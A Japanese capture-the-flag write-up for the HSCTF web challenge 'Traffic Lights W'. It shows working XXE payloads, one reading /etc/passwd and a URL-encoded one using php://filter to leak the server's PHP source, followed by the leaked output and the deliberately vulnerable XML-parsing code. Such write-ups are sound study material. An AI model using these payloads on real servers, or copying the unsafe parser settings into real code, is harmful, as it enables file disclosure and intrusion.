

# Traffic Lights W

```txt
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## 概要



- Top: `/`  
よくわからんグラフとボタン。Activeが`True`なとこのボタンを押すと画面が遷移する
  - 1001: `/firmware_upload.php?light=1001`  
  Upload your XML firmware. Example: [example](./attachments/example)  
  XMLをアップロードできるらしい。`example`のやつをアップロードしたら`Red`と表示される。
  - 1004: `/firmware_upload.php?light=1004`  
  Error: High CPU Usage

XXEを試してみる。以下をアップロード。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY pass SYSTEM "/etc/passwd">
]>
<root>
  <content>&pass;</content>
</root>
```

以下が返ってくる。

```txt
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

いろいろ試す。

```txt
https://traffic-light-w.web.hsctf.com/firmware_upload.php?xml=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22ISO-8859-1%22%3F%3E%0D%0A%3C%21DOCTYPE+foo+%5B%0D%0A%3C%21ENTITY+pass+SYSTEM+%22php://filter/convert.base64-encode/resource=./firmware_upload.php%22%3E%0D%0A%5D%3E%0D%0A%3Croot%3E%0D%0A++%3Ccontent%3E%26pass%3B%3C%2Fcontent%3E%0D%0A%3C%2Froot%3E
```

```txt
PCFkb2N0eXBlIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KCjxoZWFkPgogIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEsIHNocmluay10by1maXQ9bm8iPgogIDx0aXRsZT5GaXJtd2FyZSBVcGxvYWQ8L3RpdGxlPgogIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iaHR0cHM6Ly9zdGFja3BhdGguYm9vdHN0cmFwY2RuLmNvbS9ib290c3RyYXAvNC41LjAvY3NzL2Jvb3RzdHJhcC5taW4uY3NzIiBpbnRlZ3JpdHk9InNoYTM4NC05YUl0Mm5ScEMxMlVrOWdTOWJhRGw0MTFOUUFwRm1DMjZFd0FPSDhXZ1psNU1ZWXhGZmMrTmNQYjFkS0dqN1NrIiBjcm9zc29yaWdpbj0iYW5vbnltb3VzIj4KICA8bGluayBocmVmPSJkYXNoYm9hcmQuY3NzIiByZWw9InN0eWxlc2hlZXQiPgo8L2hlYWQ+Cgo8Ym9keT4KICA8bmF2IGNsYXNzPSJuYXZiYXIgbmF2YmFyLWRhcmsgc3RpY2t5LXRvcCBiZy1kYXJrIGZsZXgtbWQtbm93cmFwIHAtMCI+CiAgICA8YSBjbGFzcz0ibmF2YmFyLWJyYW5kIGNvbC1tZC0zIGNvbC1sZy0yIG1yLTAgcHgtMyIgaHJlZj0iLyI+U2hhZHkgVHJhZmZpYyBMaWdodCBDb21wYW55PC9hPgogIDwvbmF2PgoKICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgPGRpdiBjbGFzcz0iaC0xMDAgZC1mbGV4IGp1c3RpZnktY29udGVudC1jZW50ZXIgYWxpZ24taXRlbXMtY2VudGVyIGJvcmRlci1ib3R0b20iPgogICAgICA8ZGl2PgogICAgICAgIDxicj48YnI+PGJyPgo8P3BocAppZihpc3NldCgkX0dFVFsibGlnaHQiXSkpIHsKICAkbGlnaHQgPSAkX0dFVFsibGlnaHQiXTsKICBpZiAoJGxpZ2h0ID09PSAiMTAwMSIpIHsKICAgIGVjaG8gIjxoMSBjbGFzcz0naDInPnskbGlnaHR9PC9oMT4iOwogICAgZWNobyAnPGZvcm0gYWN0aW9uPSIvZmlybXdhcmVfdXBsb2FkLnBocCIgbWV0aG9kPSJHRVQiPiA8ZGl2IGNsYXNzPSJmb3JtLWdyb3VwIj4gPGxhYmVsIGZvcj0ieG1sIj5VcGxvYWQgeW91ciBYTUwgZmlybXdhcmUuPGJyPkV4YW1wbGU6IDxhIGhyZWY9ImV4YW1wbGUiPjxjb2RlPmV4YW1wbGU8L2NvZGU+PC9hPjwvbGFiZWw+IDx0ZXh0YXJlYSBjbGFzcz0iZm9ybS1jb250cm9sIiBpZD0ieG1sIiBuYW1lPSJ4bWwiIHJvd3M9IjgiPjwvdGV4dGFyZWE+PGJyPjxidXR0b24gdHlwZT0ic3VibWl0IiBjbGFzcz0iYnRuIGJ0bi1wcmltYXJ5IGJ0bi1ibG9jayI+U3VibWl0PC9idXR0b24+PC9kaXY+IDwvZm9ybT4nOwogIH0KICBlbHNlIGlmICgkbGlnaHQgPT09ICIxMDA0IikgewogICAgZWNobyAiPGgxIGNsYXNzPSdoMic+eyRsaWdodH08L2gxPiI7CiAgICBlY2hvICI8aDEgY2xhc3M9XCJoMlwiPkVycm9yOiBIaWdoIENQVSBVc2FnZTwvaDE+IjsKICB9CiAgZWxzZSB7CiAgICBlY2hvICI8aDEgY2xhc3M9XCJoMlwiPkVycm9yOiBOb3QgYWN0aXZlPC9oMT4iOwogIH0KfQo/PgoKPD9waHAKaWYgKGlzc2V0KCRfR0VUWyJ4bWwiXSkpIHsKICBsaWJ4bWxfZGlzYWJsZV9lbnRpdHlfbG9hZGVyIChmYWxzZSk7CgogICR4bWwgPSBzdHJsZW4oJF9HRVRbInhtbCJdKSA+IDAgPyAkX0dFVFsieG1sIl0gOiAiRmlybXdhcmUgVXBkYXRlIEZhaWxlZCI7CgogICRkb2N1bWVudCA9IG5ldyBET01Eb2N1bWVudCgpOwogICRkb2N1bWVudC0+bG9hZFhNTCgkeG1sLCBMSUJYTUxfTk9FTlQgfCBMSUJYTUxfRFRETE9BRCk7CiAgJHBhcnNlZCA9IHNpbXBsZXhtbF9pbXBvcnRfZG9tKCRkb2N1bWVudCk7CgogIGVjaG8gJHBhcnNlZC0+Y29udGVudDsKfQo/PgoKPC9kaXY+CiAgICA8L2Rpdj4KICA8L2Rpdj4KICA8c2NyaXB0IHNyYz0iaHR0cHM6Ly9jb2RlLmpxdWVyeS5jb20vanF1ZXJ5LTMuNS4xLnNsaW0ubWluLmpzIiBpbnRlZ3JpdHk9InNoYTM4NC1EZlhkejJodFBIMGxzU1NzNW5DVHB1ai96eTRDK09HcGFtb0ZWeTM4TVZCbkUrSWJiVllVZXcrT3JDWGFSa2ZqIiBjcm9zc29yaWdpbj0iYW5vbnltb3VzIj48L3NjcmlwdD4KICA8c2NyaXB0IHNyYz0iaHR0cHM6Ly9jZG4uanNkZWxpdnIubmV0L25wbS9wb3BwZXIuanNAMS4xNi4wL2Rpc3QvdW1kL3BvcHBlci5taW4uanMiIGludGVncml0eT0ic2hhMzg0LVE2RTlSSHZiSXlaRkpvZnQrMm1KYkhhRVdsZGx2STlJT1l5NW4zelY5enpUdG1JM1Vrc2RRUlZ2b3hNZm9vQW8iIGNyb3Nzb3JpZ2luPSJhbm9ueW1vdXMiPjwvc2NyaXB0PgogIDxzY3JpcHQgc3JjPSJodHRwczovL3N0YWNrcGF0aC5ib290c3RyYXBjZG4uY29tL2Jvb3RzdHJhcC80LjUuMC9qcy9ib290c3RyYXAubWluLmpzIiBpbnRlZ3JpdHk9InNoYTM4NC1PZ1ZSdnVBVFAxejdKakhMa3VPVTdYdzcwNCtoODM1THIrNlFMOVV2WWpaRTNJcHU2VHA3NWo3Qmgva1IwSktJIiBjcm9zc29yaWdpbj0iYW5vbnltb3VzIj48L3NjcmlwdD4KPC9ib2R5PgoKPC9odG1sPgo=
```

```php
<!doctype html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <title>Firmware Upload</title>
  <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css" integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
  <link href="dashboard.css" rel="stylesheet">
</head>

<body>
  <nav class="navbar navbar-dark sticky-top bg-dark flex-md-nowrap p-0">
    <a class="navbar-brand col-md-3 col-lg-2 mr-0 px-3" href="/">Shady Traffic Light Company</a>
  </nav>

  <div class="container">
    <div class="h-100 d-flex justify-content-center align-items-center border-bottom">
      <div>
        <br><br><br>
<?php
if(isset($_GET["light"])) {
  $light = $_GET["light"];
  if ($light === "1001") {
    echo "<h1 class='h2'>{$light}</h1>";
    echo '<form action="/firmware_upload.php" method="GET"> <div class="form-group"> <label for="xml">Upload your XML firmware.<br>Example: <a href="example"><code>example</code></a></label> <textarea class="form-control" id="xml" name="xml" rows="8"></textarea><br><button type="submit" class="btn btn-primary btn-block">Submit</button></div> </form>';
  }
  else if ($light === "1004") {
    echo "<h1 class='h2'>{$light}</h1>";
    echo "<h1 class=\"h2\">Error: High CPU Usage</h1>";
  }
  else {
    echo "<h1 class=\"h2\">Error: Not active</h1>";
  }
}
?>

<?php
if (isset($_GET["xml"])) {
  libxml_disable_entity_loader (false);

  $xml = strlen($_GET["xml"]) > 0 ? $_GET["xml"] : "Firmware Update Failed";

  $document = new DOMDocument();
  $document->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
  $parsed = simplexml_import_dom($document);

  echo $parsed->content;
}
?>

</div>
    </div>
  </div>
  <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js" integrity="sha384-DfXdz2htPH0lsSSs5nCTpuj/zy4C+OGpamoFVy38MVBnE+IbbVYUew+OrCXaRkfj" crossorigin="anonymous"></script>
  <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
  <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/js/bootstrap.min.js" integrity="sha384-OgVRvuATP1z7JjHLkuOU7Xw704+h835Lr+6QL9UvYjZE3Ipu6Tp75j7Bh/kR0JKI" crossorigin="anonymous"></script>
</body>

</html>
```
